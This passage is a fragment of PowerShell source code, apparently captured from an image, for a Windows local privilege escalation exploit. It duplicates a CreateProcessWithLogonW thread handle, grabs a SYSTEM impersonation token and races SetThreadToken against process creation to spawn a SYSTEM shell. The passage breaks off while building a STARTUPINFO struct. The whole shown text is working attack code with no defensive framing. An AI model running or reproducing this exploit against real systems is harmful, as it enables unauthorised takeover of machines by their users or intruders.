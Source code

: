 	echo "[>] Duplicating CreateProcessWithLogonW handle"
	$hThread = Get-ThreadHandle
	
	# If no thread handle is captured, the box is patched
	if ($hThread -eq 0) {
		echo "[!] No valid thread handle was captured, exiting!`n"
		Return
	} else {
		echo "[?] Done, using thread handle: $hThread"
	} echo "`n[*] Sniffing out privileged impersonation token.."
	
	# Get handle to SYSTEM access token
	Get-SystemToken
	
	# If we fail a check in Get-SystemToken, exit
	if ($SysTokenHandle -eq 0) {
		Return
	}
	
	echo "`n[*] Sniffing out SYSTEM shell.."
	echo "`n[>] Duplicating SYSTEM token"
	$hDuplicateTokenHandle = [IntPtr]::Zero
	$CallResult = [Advapi32]::DuplicateToken($SysTokenHandle, 2, [ref]$hDuplicateTokenHandle)
	
	# Simple PS runspace definition
	echo "[>] Starting token race"
	$Runspace = [runspacefactory]::CreateRunspace()
	$StartTokenRace = [powershell]::Create()
	$StartTokenRace.runspace = $Runspace
	$Runspace.Open()
	[void]$StartTokenRace.AddScript({
		Param ($hThread, $hDuplicateTokenHandle)
		while ($true) {
			$CallResult = [Advapi32]::SetThreadToken([ref]$hThread, $hDuplicateTokenHandle)
		}
	}).AddArgument($hThread).AddArgument($hDuplicateTokenHandle)
	$AscObj = $StartTokenRace.BeginInvoke()
	
	echo "[>] Starting process race"
	# Adding a timeout (10 seconds) here to safeguard from edge-cases
	$SafeGuard = [diagnostics.stopwatch]::StartNew()
	while ($SafeGuard.ElapsedMilliseconds -lt 10000) {

		# StartupInfo Struct
		$StartupInfo = New-Object STARTUPINFO
		$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo) # Struct Size
		